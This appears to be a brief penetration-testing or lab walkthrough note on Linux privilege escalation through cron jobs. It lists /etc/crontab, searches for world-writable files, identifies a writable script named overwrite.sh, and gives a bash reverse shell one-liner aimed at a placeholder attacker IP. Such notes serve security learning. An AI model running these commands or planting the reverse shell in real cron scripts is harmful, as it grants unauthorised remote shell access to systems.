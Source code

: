 # crontab

to display schedule task

```bash
cat /etc/crontab 
# And
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

we found two bash script so let’s know the privileges of this files

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we found \[`overwrite.sh](http://overwrite.sh)` we can write in this file so let’s take a revers shell

```bash
bash -c 'bash -i >& /dev/tcp/AttackerIP/portnumber 0>&1'
```

<figure><img src="../../../.gitbook/assets/image 2 (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
